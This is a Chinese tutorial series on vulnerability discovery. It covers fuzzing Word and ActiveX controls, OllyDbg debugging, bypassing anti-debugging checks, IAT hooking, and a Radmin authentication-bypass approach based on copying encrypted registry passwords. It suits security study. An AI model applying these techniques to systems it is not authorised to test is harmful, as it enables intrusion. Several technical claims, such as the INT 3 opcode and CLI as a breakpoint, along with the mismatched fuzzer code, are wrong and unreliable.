在这个漏洞发掘中，我们看到 COMRaider 极大地方便了我们发掘接口式漏洞的效率。COMRaider 以其有效的检测机制，将 Fuzzing 技术很好地应用到实际漏洞发掘中，使用的就是一个“可能性覆盖”模式的 Fuzzer。因为它首先判断发掘目标的接口类型以及参数、参数个数等，再利用组合模式进行 Fuzzing，这使得 COMRaider 在 ActiveX 控件漏洞发掘中，成为首选的利器。

### 2) Word对象指针漏洞发掘实例

在微软 MS06-027 的安全公告中说明，Microsoft Word 在打开一个 Word 文档时，存在一个指针引用出错而可能被恶意用户远程攻击的漏洞。较为详细的细节是：Microsoft Word 打开 Word 文件时在处理 smarttags 对象指针存在漏洞，远程攻击者可能利用此漏洞通过诱骗用户打开恶意 DOC 文件，在用户机器上执行任意指令。……根据一些技术研究资料，我们已经知道 Word 文档的大概形式，其实 Word 是一种复合的二进制文档，它是由一个头和无数个 Sector 组成的。Word 里面的对象有两种，一种是 Storage，一种是 Stream……有了这些信息，我们可以判断出 smarttags 对象一定是存在于 Stream 中，这样我们就可以进行 Fuzzer 的编写了。

我们这里编写的是一个文件型的 Fuzzer，它最原始的思想就是对一个正常的 Word 文档进行每 4 个字节的替换，替换成“FFFFFFFF”，然后保存这些修改文件。为什么要这样做的原因是：一是我们要破坏正常 Word 文件的信息，使其生成用来测试的 Fuzz 文件；二是 IA32 结构的寄存器按照 4 字节来取值，所以我们修改的 4 字节的 FF，很可能会被某个寄存器调用，从而控制 Word 的工作流程。这里使用 VC6 编写这个 Fuzzer，关键代码如下。

```c
for (DWORD offset = 0x600; offset < 0x3400; offset += 4)
{
    // 从文件偏移0x600开始fuzz，步进4字节
    // 将文件内容拷贝到ccl中，ccl是申请的一片内存空间
    memcpy(ccl, content, filesize);
}
```

```c
// 每次修改4字节
for (int x = 0; x < 4; x++)
    ccl[offset + x] = 0xEE;
// 保存修改后的文件
memset(name, 0, 20);
sprintf(name, "%d.doc", count);
hccl = CreateFile(name, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
WriteFile(hccl, (LPCVOID)ccl, filesize, &dwWritten, NULL);
CloseHandle(hccl);
count++;
```

编译运行这个 Fuzzer，会生成我们需要的 Fuzz 文件。利用这些 Fuzz 文件，我们就可以对 Word 进行测试了。逐个使用 Word 打开它们，最后，我们发现在修改了偏移 0x632 后的 4 个字节，Word 果然崩溃了。由此，我们就成功再现了微软 MS06-027 漏洞的全过程，而这里 Fuzzer 则起到了最为关键的发掘工作。

## Fuzzing的弊端

当我们用 Fuzzing 技术发现那些漏洞的时候，你一定认为 Fuzzing 技术是一个万能的“漏洞发掘机”：无论是你知道你要测试的目标程序需要什么，还是你不知道目标程序需要什么，都可以利用 Fuzzing 技术来获得想要的信息。Fuzzing 技术以它的简单、快速，甚至说是高效，成为了我们发掘漏洞的得力助手，但是世界上没有一个事物是完美的，Fuzzing 技术也有自己逾越不了的障碍。

假设你的目标程序中有这样一段代码：

```c
if (Something == "you can go")
{
    char des[100];
    strcpy(des, ourdata);
}
```

这段代码非常简单，就是当 Something 这个变量等于“you can go”的时候，就执行一个字符串拷贝，将我们能控制的 ourdata 拷贝给 des。我们知道，如果 ourdata 是一个长度超过 100 字节的字符串时，目标程序就会发生缓冲区溢出这样严重的漏洞。但是请注意，我们此时必须保证 Something 这个变量值等于“you can go”。这对于 Fuzzer 来说，简直就是不可能的事情，因为它不会看懂目标程序的代码。

或者有这样的情况：当我们对一个目标程序进行 Fuzzing 的时候，目标程序会反应很慢，假设一次反应时间为 10 分钟，这样如果你使用随机型 Fuzzer，你将可能因此而陷入到一个时间消耗的漩涡里去。你最后的结果是为了寻找一个漏洞，而花费成倍的时间。我曾经做过这样的事情，目标程序的一次响应时间是 1 分钟左右，我不得不调整 Fuzzer 的时间，而我测试的 Fuzz 文件有 100000 个之多！你可以想象这是多么可怕的事情。

使用 Fuzzing 技术来寻找漏洞，是一个需要你去斟酌的事情。你要将尽可能发现漏洞的情况，通通告诉 Fuzzer，并且协助 Fuzzer 做好一定的分析目标程序的工作，这样你才能利用好 Fuzzer。当你利用 Fuzzing 技术发现一个漏洞的时候，这里面其实多少有一点幸运的成分。

弥补 Fuzzing 技术的缺陷是可以的，越来越多的 Fuzzer 编写者开始为此做出努力，我们将在下一节介绍这些更新的 Fuzzing 技术。对于那些 Fuzzing 技术固有的弊端，我们完全可以利用代码检查或者逆向分析来完成，这些我们在后面的文章中将会详细介绍。

## Fuzzing技术未来的展望

### 1) 智能化

从 Fuzzer 编写的两个工作原理来看，Fuzzing 技术有时是非常笨的，尤其是对于随机型 Fuzzer 来说。随机型 Fuzzer 就像一个不知疲倦的人，不断地给目标程序发送出这样或者那样的数据，期待有一天目标程序能够“砰”的一声弹出一个出错对话框，然后将这个结果交给分析人员（漏洞发掘者），再由他们分析这个错误究竟是不是个漏洞，这一切显得繁琐而又笨拙。

于是我们可以这样实现 Fuzzer：我们编写一个 Fuzzer，它首先会根据要 Fuzzing 的目标不同而设定不同的 Fuzzing 模式，然后根据选择的目标程序对象的性质，再产生一个最优组合，然后进行 Fuzzing。这个期间，Fuzzer 会判断目标程序出错时的状态，将不同错误归类，以便使用者做分析。Fuzzing 结束后，Fuzzer 记录下这次 Fuzzing 的一切过程、结果，选择出这次 Fuzzing 中哪些组合触发了漏洞，哪些没有，然后将其作为后续优化依据，作为一个组合存入数据库中，以便下一次对同类型目标程序进行 Fuzzing 时可以优先选择这个组合。听起来这个很像是一个人的思考过程，其实这就是智能化的 Fuzzer。

智能化的 Fuzzer 能够将发掘漏洞中的技巧以及行为综合起来，然后进行一个测试到判断、判断再到测试的循环过程，既节省了时间，又可以提高 Fuzzing 本身的效果。

### 2) 高效化

对于 Fuzzing 这样的技术来说，效率是很重要的，我们不能让 Fuzzer 无休止地等待目标程序的反应，我们可以采用尽可能快的方式判断一次 Fuzzing 是不是成功的。这里还有个问题，就是在 Fuzzing 的时候，我们是怎样进行 Fuzzing 的？是一个接一个测试，还是别的什么？对于那些能够一次执行好几个的目标程序，我们完全可以进行并发式的 Fuzzing；而对于响应时间不长的目标程序，我们可以设定一个超时时间，防止目标程序 Fuzzing 后，在没有出现异常的情况下，Fuzzer 还在那里等待着。

在 Fuzzing 测试的过程中，我们还要注意内存的使用，尤其对于本地程序的 Fuzzing，因为每一次的 Fuzzing 都意味着你要运行一次目标程序。你必须做好内存的释放与回收工作，Fuzzer 在这里不能盲目地开启目标程序，那样再大内存的主机都会被瞬间弄崩溃。

### 3) 准确化

Fuzzing 技术发展到今天，它不再简单地是一个想办法触发漏洞的工具，而是一个触发加记录判断的工具。这样我们在使用 Fuzzer 的时候，就能知道什么时候发生了什么样的漏洞触发事件。如同 COMRaider 中那样做的，COMRaider 在目标程序崩溃的时候，准确记录了当时各个寄存器的数值，以及内存栈空间的情况，这对于我们后面分析漏洞的性质，起到了至关重要的作用。

### 4) 框架化

这是现在所有类型的 Fuzzer 发展最为明显的一个标志。SPIKE 就是一个典型的代表，因为它利用了外部脚本来具体执行某一次的 Fuzzing，其本身就是一个大的框架，我们所要做的就是在里面填入我们想要的“砖瓦”。这对于变化无常的目标程序，以及那些复杂的协议来说，成为一个简单易行的 Fuzzing 工具。

框架化最大的好处就是极大地方便了以后的扩展，就像做插件一样，主体程序只有一个，插件却可以千千万万。

- 前置知识：汇编
- 关键词：漏洞、逆向、动态调试


## 给程序号脉

### 调试术

文／图 爱无言

前面我们学习了逆向技术，准确地说我们学习的是一种软件的静态分析，因为我们的逆向是从对目标程序的反汇编或者反编译出来的结果上分析，而这个时候目标程序并没有实际运行，凭借的是对目标程序在汇编代码上，或者反编译出的代码上的直观表现来构造出程序的运行逻辑，分析其中的敏感函数、错误代码从而发掘出漏洞。但是我们的分析都是由这些代码符号直接表现出来的，因为没有原始代码，我们很难确定某一个时刻 CPU 中寄存器内部究竟是什么数值，这个时候我们静态分析的结果就会出现截然不同的情况。

关于这一点，在我们分析到诸如“cmp eax,1; jnz XXX”这样的条件跳转指令时，表现得尤为明显。因为，我们此时不可能从静态代码中看出 eax 寄存器中的数值，也就无法确定这个跳转指令是不是会成功跳转。如果一旦跳转就会出现一个溢出漏洞，那我们就必须要肯定 eax 中的数值不等于 1。可是基于静态的逆向技术是无法告诉我们这些信息的，此时我们的漏洞发掘就会陷入僵局。

如果说事物的状态有两种，一种是静态，那么另一种就是动态了。当静态的逆向分析无法给我们更多信息的时候，一种能够动态剖析软件内部流程的分析技术出现了，这就是调试技术。调试技术弥补了静态分析技术上的不足，虽然从静态分析中可以了解程序的流程，但并不可能真正了解软件的细节，例如每个时刻 CPU 中各个寄存器的具体数值、内存中的数据分布，这些都是动态变化的，静态分析完全不可能知道这些具体的数据。

尤其当我们碰到一个被压缩加壳的软件，要是将它反汇编后，你会发现那些代码简直就乱得没有头绪，更谈不上从中寻找漏洞了。在“算法逆向”中我们提到了一种对软件进行加密、压缩的神奇技术“壳”。我们知道，在静态的代码逆向中，我们无法去除这个“壳”，但对于动态调试，完全可以去除这个伪装，还程序本来面目。

壳的种类一般分为压缩壳、加密壳和压缩加密壳三种。压缩壳主要作用是对软件占用空间进行缩小化，加密壳主要是对软件本身进行先加密，然后在程序执行时进行动态解密运行，而压缩加密壳则既进行空间的压缩又进行程序本身的加密。提供加壳的软件有很多，其中著名的有 UPX、ASProtect、FSG 等等，这些壳对软件本身的影响很大。

有时或许只是压缩下代码，有时就成了加密全部代码，这给我们软件流程的分析带来了巨大的障碍。看一个例子，我们对比下面两张图片（中间用竖线隔开），如图1所示。


图1

如果不说，你会相信这两张图片出自对同一个程序的反汇编吗？左面的图是原始程序的反汇编代码，你可以看到清晰地反映了程序的流程，其实就是那个“strcpy.exe”；而右图则是使用 UPX 加壳之后的反汇编代码，你会发现代码变得很凌乱，程序变得异常复杂，几乎看不出程序的基本流程。

我们很难利用在“逆向技术”中学习到的漏洞发掘方法来发现软件内部的漏洞。其实这也就是发明壳这项技术的初衷，壳的出现最原始的目的是为了压缩代码，减小程序所占空间，后来渐渐变成了对程序本身的一种保护，防止 Cracker 们破解程序，也防止逆向者对软件的实现有所了解。

有时被加壳的程序或许比原始程序的大小还要更大一些，如幻影。对于这些壳，我们不能再使用反汇编技术来实现对其流程的分析观察，调试技术在此时就凸现出它的关键作用。因为无论软件的壳怎样实现加密或者压缩，程序首先都需要在系统中运行，而调试技术正好能够动态地跟踪分析程序在系统中运行的每一个动作。

只要能正确分析出这些动作，那么我们就等于脱去了壳这一层外罩，看到了程序内部的真实流程。这也就是动态调试中的一项重要分类，即“脱壳”技术。借助于前人的研究，现在我们可以直接轻松地认识出一些壳的特征，然后使用专门的脱壳软件，对其进行脱壳处理，这会大大方便我们调试一个软件，不至于再去花费额外的时间。

对于识别壳的软件，较为有名的是 PEiD，这是一个支持插件的识别壳的工具，它也可以将能脱壳的插件装入自己，然后方便我们在查壳的同时去脱壳。动态调试技术将那些难以用逆向技术除去的壳脱去，并且又能出色地跟踪程序的内部流程，这对于漏洞发掘者来说，如果在掌握了静态的代码逆向技术的基础上，再学会使用调试技术……技术，那无疑拥有了捕捉软件漏洞最好的组合装备。往往在研究一些程序时会碰到这样的情况：目标程序运行的流程非常复杂，或者这个软件内部数据交换不透明。像网络软件，它背后客户端与服务端的数据交换，对使用者来说根本看不见。这些情况下，调试技术将成为我们发掘此类软件漏洞最好的选择。

## 调试技术的应用

有了对调试技术的直观印象，我们下面要学习的就是怎样在漏洞发掘中使用调试技术，来帮助我们实现认清程序流程，找到目标漏洞。调试技术不同于前面我们说过的两种技术，调试技术本身最大的亮点就是可以动态地跟踪目标程序的流程，观察其每时每刻的变化。在最初的时候，调试技术是程序开发人员进行程序测试以及排除程序故障时使用的。这些开发出来的程序不仅仅限于那些简单的应用软件，还包括操作系统本身以及一些管理硬件的驱动程序。

我们都知道，一般的应用软件可以被我们随意卸载、安装、修改，就算出错了也只需要简单地重新安装一下就好，但是操作系统可不能随意被我们修改，尤其是那些驱动程序，不然你的电脑就会死机、蓝屏、崩溃。为什么会这样呢？原因就是为了安全稳定，所有在电脑上运行的程序都会被分等级处理，就像马路上的车道，汽车的车道就只允许汽车在上面行驶，人行道就只能行人在上面行走，如果汽车上了人行道那就会发生事故。这样的分层式管理，保证了程序之间不互相影响，也防止了一方程序恶意修改另一方程序而导致严重错误。

为了区分这些不同层次的程序，国际上使用 Ring0、Ring1、Ring2、Ring3 四个等级来进行区分。其中，Ring0 为最高级，Ring3 为最低级。我们平时惯用的操作系统一般只区分 Ring0 和 Ring3 两个级别，操作系统内核部分的，包括驱动程序、系统服务程序等等都属于 Ring0 级别，而一般的像我们安装的应用软件则属于 Ring3 级别，像 Office、WinRAR 等。由于不同层次的程序级别不一样，所以我们在做这些程序调试时也就出现了相应的区别。

对于 Ring0 级别的调试，我们必须要使用同样级别的调试方法，不然就会造成系统崩溃，因此我们就要使用驱动程序或者注册系统服务的方法来进行调试，或者操作系统本身提供允许调试 Ring0 级别程序的函数接口，我们也可以利用这些接口函数来进行调试。例如像 Windows 操作系统，如果要在它下面对 Ring0 进行调试，就可以采用挂接系统中断的方式，因为所有的内核操作都会涉及到系统中断，这样我们就可以获得调试 Ring0 程序的权限。对于 Ring3 级别的程序调试，我们可以简单一点，一般可以直接采用库函数来编写相应的调试程序。

调试技术在具体实现中，由于被调试程序的级别不一样，所以分成了两种不同类别的调试方法，下面我们将按照这两种调试方法的不同来进一步介绍调试技术在漏洞发掘中的使用。

## 用调试技术发掘应用层漏洞

毫无疑问，在应用软件调试工具中，Windows 下大名鼎鼎的是 OllyDbg，而在 Linux 下则是 gdb，这在前面“搭建一个平台”中已经提到过，对这两个工具的介绍不再多加叙述。我们直接利用 OllyDbg 在 Windows 系统下进行一次漏洞发掘实例的演示学习。

利用 OllyDbg 打开目标程序，假设这个目标程序本身有壳，利用脱壳工具脱去这层保护，我们进而直接认为现在目标程序是程序自己本来的面貌，没有被加壳。打开目标程序后，OllyDbg 会自动中断在程序的入口点，等待使用者的命令。这个时候，我们首先要明确所要发掘的漏洞是什么类型的。一般情况下我们会首先选择发掘溢出形式的漏洞，所以必须先要找到目标程序在哪些地方使用了诸如 strcpy、memcpy、lstrcpy、lstrncpy 等这样的敏感函数。鼠标右击 OllyDbg 窗口，出现一个菜单，我们找到“查找”，然后选择“所有模块的名称”，这时出现一个列表，如图2所示。

从这里可以看到，所有程序可能用到的函数名称全部显示出来了，第一列为地址以及模块名称，第三列就是函数名称。我们想要的敏感函数在这里显示在 ntdll.dll 中，此时选择菜单中的“查看”，点击“可执行模块”，找到 ntdll.dll，双击，被切换到 ntdll 这个模块中，还是右击，选择“查找”，再是“当前模块中的名称”，这时又会出现一个同样的列表，再次找到那些敏感函数。在找到的敏感函数所在的那一行上，按“F2”下一个中断，此时，选择的那一行会变为红色。

你一定会问我，我们现在做这些干什么？我们不是要找到目标程序在哪些地方使用了这些敏感函数吗？不然我们如何判断有没有溢出漏洞呢？其实，我们刚才所做的一切正是为了这个目的，因为我们此时面对的是一个非常复杂的程序（否则我们不会用动态调试它），根本不可能很快找到反汇编代码中哪里调用了敏感函数。换一个思路，既然是要调用敏感函数，我们要是在敏感函数的入口上放一个中断程序的指令，只要目标程序有地方使用到敏感函数，OllyDbg 就会帮我们自动使程序中断，这样就可以发现程序在什么地方调用了敏感函数。动态调试就有这个好处，这是静态分析所做不到的。

但是这里要注意，在逆向技术中讲过，有时编译器会对这些敏感函数做一个优化，使得函数面目全非，这个时候要是下断点在那些敏感函数名称上就没有用了。建议在这个时候使用查找功能，或者在“查看”中选择“可执行模块”，然后选择要调试的目标程序，双击，在这个窗口中右击选择“查找”，在子菜单中选择“命令”，这时会弹出一个对话框，在这里输入那些被优化后的敏感函数中的特征代码。例如在 strcpy 的优化代码中，有一个“shr ecx,2”指令，可以用这个作为 strcpy 的特征指令进行查找，从而找到优化后的敏感函数地址，再在那个地址上按“F2”下一个断点。

现在我们按“F9”键让程序运行起来，一旦程序内部有地方调用了这些敏感函数，OllyDbg 马上就会停下来，并显示出从哪里调用了该敏感函数，如图3所示。从图中我们可以看到来自 0040104A 地址的一个调用使用了 strcpy 函数，右击此处，选择“转到”，会出现一个“call 来自0040104A”，点击它，就找到了程序中调用函数 strcpy 的地方。根据我们在逆向一文中学习到的方法，找到 push 指令，就能找到 strcpy 的两个参数究竟是多少，就能根据逆向技术中的经验来分析两个参数空间的大小，从而发掘出可能存在的溢出漏洞。

对于 Linux 平台下的 gdb，使用其实大同小异，只是将菜单的选择改变成了命令行的形式。对于应用层的软件漏洞，使用调试技术发掘时主要是对所下断点的选择，溢出式漏洞往往集中于那些敏感函数的调用上；而对于其他类型的漏洞，例如认证绕过漏洞，就需要首先想到程序的认证是依靠什么作判断的。对于一个本地程序，它可能是利用你在对话框中输入的密码正确与否来判断认证；对于网络程序，则使用数据包的内容来作判断。这个时候在下断点的时候，就应该有所区分。对于本地的，应该在获取对话框内容的函数上下一个断点；对于网络的，就应该在数据包接收、发送上下断点。

关于这种漏洞的调试发掘，我将在发掘实例中具体讲解，这里主要是要强调充分利用调试中的下断点方法来发现可能存在的漏洞，先明确下断点目标，再跟踪调试。不正确的断点将造成更加混乱的思维，也就无法获得发现漏洞的机会了。

在一些驱动程序中存在一定的安全隐患。由于驱动程序工作在系统的 Ring0 级别，也就是最高权限级别，如果这些驱动程序出现问题，那么就可以非常轻而易举地获得提升权限的机会。

## 去内核里发掘漏洞

这里我们所说的内核，指的就是处于 Ring0 级别的操作系统内核。这里不但有系统本身的一些程序，还有来自第三方软件的驱动或者服务程序，它们都是工作在最高的级别。如果它们其中之一出现了问题，结果将要比那些处在应用层的软件漏洞可怕得多。

内核漏洞正因为处于系统的核心部位，不能简单地看待漏洞的样式。例如溢出漏洞，这个在内核中或许不再是使用 strcpy 这样的函数导致，而直接表现为一个过长数据往某个小空间拷贝。我们要仔细观察内核中各个寄存器的变化，以及内核操控的内存空间的变化。对于内核漏洞来说，更多时候发掘出的是提升权限式漏洞，因为内核是一个应用层用户无法直接进入的区域。但是一旦用户发现了某个缝隙，就会将自己摇身一变成为内核中的一员，这样内核就陷入了完全被掌握的尴尬境界。

举一个最简单的例子，假设你用的是 Windows，是一个 guest 权限的用户，你下载了一个软件，急切地想要安装这个软件，却发现安装过程中不断地出现“注册系统组件出错”这样的警告。如果你稍微懂一点系统知识，就知道其实这就是因为你的 guest 权限较低，系统出于安全保护，不允许你使用任何程序修改系统关键信息，例如注册表的某些关键值，这样你的软件无论如何也就安装不上了。但是，如果你有幸发现了一个内核提升权限的漏洞，那么即使你在 guest 权限下，只要通过这个漏洞，你不但会成为 administrator，更可能会成为 system，权力之大，也就可以随心所欲了。从这个例子能看出提升权限漏洞的破坏性有多可怕。利用调试技术，最好加上逆向技术，很容易就会找到这样的漏洞。

提升权限漏洞在 Windows 下，主要的原因是……

## 可恶的反调试技术

通过前面的种种描述，我们可以看到调试技术几乎是一种可以洞察任何软件内部构造的方法，那些试图隐藏软件编写流程或者保护软件不被破解的方法，在调试器的面前似乎变得弱不禁风。作为利用商业软件而创造价值的软件开发商们，迫不及待地开始寻找一种能够防止自己的软件被调试破解的新方法，在这种情况的驱动下，反调试技术出现了。

抛开反调试技术会带给 Cracker 们什么难点，对于我们这些漏洞发掘者来说，反调试技术阻止了我们想要知道的程序内部构造以及每一时刻 CPU 寄存器的数值，这样我们无法准确获得每一时刻的目标程序状态。在一些诸如缓冲区溢出漏洞中，我们就不能很好定位到漏洞出现的地方，很难充分利用漏洞。所谓知己知彼才能百战百胜，我们必须先要了解反调试技术是如何工作的，然后改变我们的调试器工具，让其不被反调试技术影响。

反调试技术总体上来说分为 4 种：

- 第一种是通过读取系统中某些结构的标志位来判断自身是否被调试。例如在 Windows 系统下，一个程序运行后会在操作系统中产生一个 PEB 结构，PEB 结构就是我们常说的“进程结构块”，这个数据结构代表了一个进程的全部信息，操作系统本身也就是靠维护这个数据结构来管理进程的。当一个程序作为进程运行后，它如果被调试器调试，那么 PEB 结构的第 2 个字节的值就会被系统设置为不等于 0。程序如果在自身加入一段检测该标志的代码，就能判断出它自己现在是不是已经被调试了。
- 第二种是利用系统函数来进行判断。例如 IsDebuggerPresent 函数，它可以检测当前进程是否被调试，是则返回 1，否则返回 0。其实这个函数的工作原理也就是读取 PEB 结构中的 IsDebugged 标志来确定调试状态。还有函数 NtQueryInformationProcess，这是一个 Windows 未公开的函数，其函数原型是：

```c
NTSTATUS NTAPI NtQueryInformationProcess(
    IN HANDLE ProcessHandle,
    IN PROCESS_INFORMATION_CLASS ProcessInformationClass,
    OUT PVOID ProcessInformation,
    IN ULONG ProcessInformationLength,
    OUT PULONG ReturnLength
);
```

程序可以调用这个函数，并且设置 `ProcessInformationClass` 参数为 7，这样如果程序被调试，那么该函数返回值中的 `ProcessInformation` 会被系统设为 1。

- 第三种反调试技术是利用设置“伪调试”指令来欺骗调试器。调试器中可以对目标程序下一个断点，然后一步步观察程序的工作过程，这些断点一般都是一个断点性质的指令或者寄存器中的某些标志。如果被调试的程序自动随意修改这些寄存器值或者插入断点性质的指令，调试器也会误认为这是调试者下的一个断点，然后将程序停下来，这样被调试的程序就不会再往下正常工作，我们就不能看到程序后面的工作流程了。可以说这是一个“以其人之道还治其人之身”的办法。
- 第四种反调试技术是指令扫描。由于我们跟踪程序时会避不开断点，我们也提到过“断点”也许就是一些指令，例如常见的断点 `INT 3`，这条指令的机器码就是 `0xCD` 或者 `0x03`。那么程序运行时可以对自己进行实时扫描，一旦发现这种指令的机器码就马上退出正常运行，这样调试器就无法再继续跟踪了。

上面提到的这些反调试技术分类，或许还有没有涉及到的一些反调试方法。无论如何你可以看出，反调试技术还是很好实现的。既然这样，作为软件开发者就会很简单地加入这些反调试检测。如果我们在针对这种被加入反调试技术的软件进行漏洞发掘时，就必须想出破解反调试技术的方法，因此在这里我们再探讨下消除上面 4 种反调试技术的方法。

对于读取系统某些结构来判断调试状态的这种方法，我们完全可以在反调试代码读取标志前将这些关键标志修改掉。例如对 PEB 中的第 2 个字节标志，我们将其重置为 0，这也不会影响程序的正常工作，这样就可以避免被反调试技术发现。而对于利用系统函数进行判断的方法，可以使用挂钩这些函数、修改它们返回值的方法，也就是 HOOK 方法。

在下面的一节里我们还要重点介绍 HOOK 在调试中的另外一种使用。一旦函数返回值被修改，那么使用函数进行判断的方法就会成为一个有名无实的假借。对于加入了伪中断指令的反调试技术，貌似很难突破，因为调试器确确实实就是利用这些中断指令来工作的。其实我们可以采用在一定范围内忽略中断指令的方法来避开这些假的中断指令，这样我们就能重新获得跟踪程序的机会。

扫描法其实是一种比较难突破的方法，但是我们可以通过不使用常见的中断指令来防止被反调试扫描检测到。例如可以不使用 `INT 3` 中断指令，改换成 `CLI` 指令，同样可以达到给被调试程序下断点的目的。

额外说一点，如果你要做应用层软件的调试工作，最好使用 OllyDbg，因为国内的看雪组织已经为这款出色调试软件开发了一个插件。该插件专门用来破解那些加入了反调试技术的软件。使用这个插件，按照插件中的设置进行选择，就可以随意去调试带有反调试性质的程序了。

综合来看，反调试技术确实给我们的调试工作带来了不小的阻碍，但我们总能找到突破办法，所以一定要了解这些技术，这样才能在我们的漏洞发掘中不至于“不知所措，慌了手脚”。

## 演变了的调试技术

反调试技术最大的使用者应当归属于那些为了保护程序而出现的壳。例如幻影加密系统，它在进行对软件加壳的时候，会有一个选择，如图4所示。其中的“全进程监视 DEBUGGER”就是相关选项之一，是一种防范动态调试的手段。

当我们对一个软件使用幻影加壳后，如果再使用 OllyDbg 去调试这个软件，OllyDbg 就会出现一些读写异常，导致 OllyDbg 无法正常调试软件。对于这种情况，我们还是有办法来进行调试的，可以在 OllyDbg 中选择忽略异常，然后利用 ESP 定律去实现脱壳，这样就可以重新正常调试软件。

但我们有时不能总将时间放在脱壳的研究中，我们的目的是发掘漏洞，而不是成为一个 Cracker。所以利用动态调试的思想，我们演变出另一种动态分析程序的方法，那就是利用 HOOK 技术来实现动态分析程序。原始的调试技术是用下断点的方式来发现程序哪些地方使用了那些容易造成漏洞的敏感函数，而 HOOK 技术同样可以实现这个目的，甚至比调试本身还要简单。

HOOK 的基本思想就是将程序中调用的函数地址劫持，将这些地址修改成为拥有我们可控代码的地址。程序调用这些函数就会转到我们的代码中，然后就可以在我们的代码中加入对程序状态的记录代码，这样就可以更加清晰地分辨出敏感函数的参数，以及此时内存中的状态，结合漏洞分析的思路，就能准确判断出目标程序是否存在问题了。

HOOK 技术从实现角度来说一般有 3 种：

- 第一种是利用修改可执行程序的文件头结构，将其中关于调用函数地址的部分全部改成我们的函数地址，并且引入有我们函数实现的模块。
- 第二种是利用在目标程序运行期间，将有我们实现代码的模块动态注入到程序的内存空间，使其自动修改原始函数在目标程序内存中的地址，成为我们注入模块相应函数的地址。
- 第三种是利用系统本身的某些机制，将代码注入进程序内存，然后令其修改原始函数地址。

无论对于 Linux 系统还是 Windows 系统，这些方法都是可以实现的。但是我们更加推荐使用第一种方法，因为我们既然要动态分析程序，就要求对程序本身的破坏尽可能小，而利用在程序执行期间的注入方式来 HOOK，有时会发生对程序内存结构的破坏。

这里我们演示一个 Windows 下利用修改程序 IAT 表的方式来进行动态 HOOK 的例子。IAT 表是 Windows 下 PE 格式可执行文件的一个头部表，其作用就是将可执行文件中要使用的所有外部函数地址全部都分配好，形成一个表，方便程序查询函数地址，调用所需函数。如果我们修改了这个表，就可以实现对程序 HOOK，并且我们所进行的修改是在程序完全开始执行之前的，这样就可以更加良好地动态跟踪目标程序的行为。

既然是要在目标程序运行前进行 HOOK 修改，那么我们可以使用函数 CreateProcess 来运行这个目标程序，并且将 CreateProcess 函数的最后一个参数置为 XXX，这样就可以使目标程序暂停，然后用这个程序对目标程序的 IAT 表进行修改，修改完毕后就可以令目标程序正常运行了。我们这里试图 HOOK 的函数是 lstrcpyA 函数，这是一个很关键的字符串操作函数，可以通过分析它来间接猜测目标程序哪里会出现过长字符串处理不当的问题，然后控制字符串来触发这个漏洞。图5是一个利用 IAT HOOK 截获傲游浏览器 lstrcpyA 函数调用的结果。

在这个 HOOK 结果中，我们发现傲游浏览器试图在使用 lstrcpyA 函数操作系统的主机名，这样我们就可以将主机名变化一下，或者取一个很长的主机名，或者取一个格式复杂的主机名，再使用傲游浏览器，看看会不会造成浏览器崩溃。不断分析 HOOK 的结果，找寻这些敏感函数中来自外部的参数，修改这些外部参数，然后再让浏览器工作，这样就可以发现那些可能存在的安全隐患。

HOOK 技术可以间接获得程序执行的情况，我们可以指定想要 HOOK 的目标函数，诸如那些会引发缓冲区溢出的敏感函数以及一些涉及处理加密信息的函数。通过分析这些函数的调用过程与参数变化，可以更有针对性地发现漏洞线索。

用结果，找到可以人为控制的参数来触发程序可能存在的漏洞，获得程序的一些机密信息。HOOK 技术还可以有效避免一些软件调试中的干扰因素，例如壳，让我们集中精力分析漏洞可能出现的地方，从而增加发现漏洞的机会。

## Radmin远程认证绕过漏洞发掘实例

Radmin 是一款优秀的远程管理软件。为了防止受软件远程管理的主机被恶意控制，它使用了较为复杂的加密算法，用来在远程主机控制中进行远程用户认证。具体情况是，在使用 Radmin 客户端访问安装了 Radmin 服务端的主机时，服务端会发送进行远程认证的请求，客户端在收到此数据包后，会弹出要求输入密码的对话框，如果密码输入错误将出现提示密码错误并且禁止登录服务端。

从这个认证流程上来看，Radmin 的认证是完全符合网络程序认证方式的。我们如果试图从网络数据包中获取密码信息，那么将看到如图 6 所示的结果。你会发现我们根本无法获得任何关于密码的信息，因为它们已经被 Radmin 加密了。但是 Radmin 的认证方法果真就如此安全吗？


现在换一种思路来研究这个问题。在安装完 Radmin 后，我们注意到在 Radmin 的安装目录下有一个帮助文档。还记得我曾提示过在发掘程序漏洞的时候要尽量收集关于程序的任何信息，而程序自带的帮助文档无疑是最好的信息来源。在帮助文档的“Radmin registry keys”一节中，我们发现这样一段话：“Radmin Server settings (the tray icon options, port, logfile options, IP filter settings, password) are stored in Windows' registry. You can copy these settings from one computer to another.”

意思是：“Radmin 服务端的所有设置（包括端口、日志、IP 过滤、密码）都存储在 Windows 注册表里。你可以将这些设置拷贝到其他电脑上使用。”看了这段话，你会想到什么？原来 Radmin 的一切关键信息全部是在注册表里，并且可以随意导出，用到别的电脑上。一旦这些关键信息被替换，岂不是密码什么的也会被修改。

还有，既然是保存在注册表里，我们就可以直接获得这些密码的信息，甚至是真正的密码原型。帮助文档中直接给出了 Radmin 服务端密码所在的注册表键值是：“HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v3.0\Server\Parameters\Parameter”。打开注册表，发现该键值果然存在，但是密码却是被加密的。

经过测试，如果你可以修改服务端所在电脑的注册表，那么只要在本机上安装 Radmin 并设置一个已知的密码，再将注册表中的加密密码键值导出，到服务端所在电脑上导入这个键值，就可以修改服务端的密码成为你的密码，这一个漏洞也算是 Radmin 任意修改密码漏洞。

但是，我们往往碰到的却是你无法获得这样的机会。你或许只能查看受控主机的注册表而无法修改，你所面临的就是如何正确输入密码才能登录受控主机。在前面截获的数据包中，我们发现所有的信息都是被加密发送的，那么这个存在于注册表内部的被加密的密码，是不是就是我们在远程认证中使用的加密密码？如果这两者的加密方式一样，而远程服务端就是接受这个加密密码来确定认证的话，我们就可以直接利用发送加密后的密码来获得绕过远程认证、直接操作受控主机了。

此时，我们选择了利用调试技术来确定这个猜想，因为如果逆向分析，我们就会被错综复杂的汇编代码弄乱，并且无法知道内存中的某些数据。我们现在只要能确定 Radmin 客户端发送给服务端的加密密码与服务端注册表中的密码一致，我们就可以确定这是一个认证绕过漏洞了，这在程序的动态调试中也许表现得就像一句“cmp eax, ebx”一样简单。大家有兴趣的话，可以自己利用前面学习的知识来做一次调试分析。

- 前置知识：汇编
- 关键词：漏洞、逆向、堆栈溢出

## 黑客漏洞发掘技术内幕系列之九：代码中的指航灯——逆向技术


文／图 爱无言

